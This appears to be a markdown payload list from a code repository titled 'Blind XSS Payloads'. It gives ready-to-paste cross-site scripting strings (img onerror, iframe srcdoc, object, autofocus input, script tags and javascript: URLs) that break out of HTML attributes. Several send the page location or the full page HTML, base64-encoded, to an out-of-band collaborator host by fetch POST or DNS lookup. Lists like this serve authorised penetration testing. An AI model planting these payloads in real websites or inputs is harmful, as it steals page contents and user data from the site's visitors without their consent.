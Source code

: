 Blind XSS Payloads
==================

The following list includes some blind XSS payloads that can be used to proof evaluation of JavaScript using out-of-band communication.


## Image only: HTML Injection without JavaScript
```html
'"><img src="https://example.burpcollaborator.net/image">
```

## Image-Tag XSS Payloads
```html
'"><img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='this.src="https://"+btoa(document.location)+".example.burpcollaborator.net/image-dns?"'>

'"><img src=x onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>

'"><img src=x onerror='fetch("https://example.burpcollaborator.net/image-xss-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})'>
```

## iFrame XSS Payloads
```html
'"><iframe src='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></iframe>

'"><iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>

'"><iframe srcdoc='<script>fetch("https://example.burpcollaborator.net/iframe-srcdoc-post",{method:"POST",body:btoa(parent.document.body.innerHTML),mode:"no-cors"})</script>'></iframe>
```

## Object XSS Payloads
```html
'"><object data='javascript:window.location="https://example.burpcollaborator.net/iframe-src?"+btoa(parent.document.location)'></object>
```

## Input field
```html
<input onfocus='fetch("https://example.burpcollaborator.net/imput-post",{method:"POST",body:btoa(document.body.innerHTML),mode:"no-cors"})' autofocus>
```

## Script-Tag
```html
'"><script src=https://example.burpcollaborator.net/script-tag></script>

'"><script type="text/javascript" src="https://example.burpcollaborator.net/script-tag-type"></script>

'"><script type="module" src="https://example.burpcollaborator.net/script-tag-module"></script>
'"><script nomodule src="https://example.burpcollaborator.net/script-tag-nomodule"></script>
```

## JavaScript Scheme
```
javascript:window.location="https://example.burpcollaborator.net/js-scheme?"+btoa(document.location)

javascript:fetch("https://example.burpcollaborator.net/js-scheme-fetch?"+btoa(document.location))
```
